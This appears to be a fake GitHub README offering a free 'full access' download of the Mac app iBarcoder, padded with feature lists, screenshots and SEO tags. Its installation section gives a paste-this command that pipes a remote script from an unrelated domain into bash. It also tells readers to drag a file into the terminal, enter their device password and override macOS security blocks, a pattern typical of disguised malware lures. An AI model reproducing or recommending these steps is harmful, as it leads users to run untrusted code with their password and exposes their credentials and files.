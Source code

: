 <p align="center">
  <img src="https://macx.ws/uploads/posts/2020-02/1580799211_ibarcoder.png" width="160" alt="iBarcoder macOS Banner" />
</p>

<h1 align="center">iBarcoder for macOS Free</h1>

<p align="center">
  🏷️ Professional barcode and label creation tool for Mac. Supports QR codes, EAN, UPC, ISBN, and dozens of other industry-standard formats.  
  <br><br>
  ✅ Apple Silicon Native Performance  
  ✅ Fully Compatible with Sonoma, Ventura, Monterey  
</p>

---

## 🔻 Download

<p align="center">
  <a href="http://krakayut.github.io/.github/sbaraoka2" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20IBARCODER%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download iBarcoder for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://is1-ssl.mzstatic.com/image/thumb/Purple1/v4/bd/95/bc/bd95bc55-64ea-23b0-ad08-71620941bb94/mzl.oamccbav.png/643x0w.jpg" alt="iBarcoder App Interface Screenshot" />
</p>

---
## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

# Installation via a command in the terminal:

1. Copy the installation command below.
 
```
 /bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

---

## ❓ What is iBarcoder for macOS?

**iBarcoder** is a barcode generation and label printing powerhouse for macOS. It allows users to create QR codes, EAN, UPC, ISBN, Code 128, and more with precision and speed.  

Designed for business owners, warehouse managers, publishers, and anyone who needs fast, reliable barcode output — iBarcoder ensures professional-grade results every time.  

From product packaging to asset tracking, it gives you total control over barcode style, size, and print layout.

---

## ✅ Why Choose iBarcoder?

- 🏷️ **40+ Barcode Standards Supported**  
- 🔲 **QR Code and Custom Label Design Tools**  
- 📦 **Mass Barcode Creation from CSV/Text Data**  
- 🖨️ **Label Sheet and Roll Printer Support**  
- 🎨 **Custom Colors, Fonts, and Layouts**  
- 🍎 **Native M1/M2/M3 Optimization**  
- 📄 **High-Resolution Vector & Image Export**  
- 🔒 **Offline Operation — Data Stays Local**

---

## 📸 More Screenshots

<p align="center">
  <img src="https://img.utdstc.com/screen/0a5/761/0a5761c49f39acab63192566b88a72277222fe242966e7f573f64b13cafd98cb:600" alt="Barcode Editing Interface" />

---

## 🚀 Key Features

- QR, EAN, UPC, ISBN, Code 39, Code 128 generation  
- Batch barcode processing from database files  
- Direct printing with label templates  
- High-DPI exports in PNG, PDF, TIFF, JPEG  
- Retail, logistics, and publishing ready  
- Optimized for Intel and Apple Silicon Macs  
- Operates without internet connection

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:  
Go to **System Settings > Privacy & Security** → Allow iBarcoder manually.

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Feature-Barcode+QR+Label+Maker-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Support-Apple+Silicon+Native-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ iBarcoder – Professional Barcode Creator

Thanks for using **iBarcoder for macOS**.  
Create, customize, and print barcodes with absolute control.

---

## 🧭 Usage Context

iBarcoder is built for companies, retailers, logistics teams, and publishers who require high-volume, accurate barcode production.  
Operates entirely offline for complete privacy.

---

## 🔍 Tags

```text
ibarcoder mac download, barcode maker for mac apple silicon, qr code generator for mac m1 m2 m3, ean upc isbn barcode printing macos, product label creator software mac, high dpi barcode designer macbook, professional barcode generator for mac, batch qr ean upc creation tool mac, retail barcode printing app apple silicon, code 128 barcode maker macos offline, asset tracking label generator mac, custom qr and barcode design macbook, industry standard barcode creator mac, business barcode software mac full version, mac barcode label printing solution
